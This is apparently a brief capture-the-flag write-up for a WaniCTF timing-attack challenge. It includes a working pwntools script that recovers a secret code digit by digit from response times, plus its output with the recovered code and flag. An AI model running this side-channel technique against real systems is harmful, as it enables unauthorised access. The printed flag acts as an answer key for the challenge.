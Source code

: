 ```yaml
---
created: 2024-06-22T07:29
updated: 2024-06-23T10:50
---
```


It seems that the validation step would take a very  long time, which means its gonna be timing attack!

i.e. measure the time between you sending the data, and the server responding with "Wrong"

```python
from pwn import *
from time import perf_counter

def time_char(ch):
    conn.recvuntil(b"Enter the secret code: ")
    conn.sendline(ch)
    start = perf_counter()
    res = conn.recvline()
    time = perf_counter() - start
    if b'Wrong!\n' != res:
        print(f"Found: {ch}")
        print(f"Time: {time}")
        print(res)
        print(conn.recvall())
        conn.interactive()
        return 0
    return time

conn = remote("chal-lz56g6.wanictf.org", 5000)
conn.recvuntil(b"Enter the cheat code: ")
conn.sendline(b"A"*50)

curr = b''
for j in range(10):
    res = [time_char((curr + str(i).encode()).ljust(10, b'0')) for i in range(10)]
    min_index = res.index(min(res))
    curr+=str(min_index).encode()
    print(f"Current: {curr} {res[min_index]} {res}")
```

```
Current: b'2' 1.0258064000081504
Current: b'24' 0.9410080999950878
Current: b'244' 0.8268128000054276
Current: b'2443' 0.7246176000044215
Current: b'24438' 0.6052523999969708
Current: b'244388' 0.5313083000073675
Current: b'2443889' 0.40315929999633227
Current: b'24438896' 0.28107090000412427
Found: b'2443889630'
Time: 0.17056149999552872
b'Correct!\n'
b'FLAG{t1m!ng_a774ck_1s_f34rfu1}\n'
```
